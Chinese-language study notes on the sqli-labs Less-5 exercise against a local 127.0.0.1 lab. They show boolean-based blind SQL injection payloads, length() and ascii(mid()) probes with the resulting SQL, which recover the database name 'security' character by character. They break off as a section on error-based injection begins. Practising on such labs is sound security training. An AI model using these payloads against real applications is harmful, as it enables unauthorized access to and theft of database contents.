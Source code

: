 ^b4610c

- ![](图片/Pasted%20image%2020241101103034.png)
    - `http://127.0.0.1/sqli-labs/Less-5/?id=1' and length(database())>7 --+`
    - `SELECT * FROM users WHERE id='1' and length(database())>7 -- ' LIMIT 0,1`
- ![](图片/Pasted%20image%2020241101103114.png)
    -  `http://127.0.0.1/sqli-labs/Less-5/?id=1' and length(database())>8 --`
    - `SELECT * FROM users WHERE id='1' and length(database())>8 -- ' LIMIT 0,1`
- 可知数据库名大于7，不大于8------数据库名为8个字符
**继续猜解**
- `http://127.0.0.1/sqli-labs/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>115--+`非正常
- `http://127.0.0.1/sqli-labs/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>116--+ `非正常
- `http://127.0.0.1/sqli-labs/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+` 正常
- `http://127.0.0.1/sqli-labs/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+` 正常 
- `http://127.0.0.1/sqli-labs/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+ `正常
- 如此就得到了
    - 第一个字符的ASCII码为115解码出来为“s”
    - 第二个字符的ASCII码为101解码出来为“e”
    - 第二个字符的ASCII码为99解码出来为“c”
    - 依次类推出数据库的名字为“security”
- 同理判断数据表名以及字段名



# 报错方式相关
SQL 注入的报错注入（Error-Based SQL Injection）是一种通过诱使数据库返回错误信息来泄露数据的技术。报错注入利用了 SQL 函数和数据库返回的错误信息，让攻击者能够获取到数据库的结构或敏感数据。以下是常用的 SQL 报错注入方法总结：
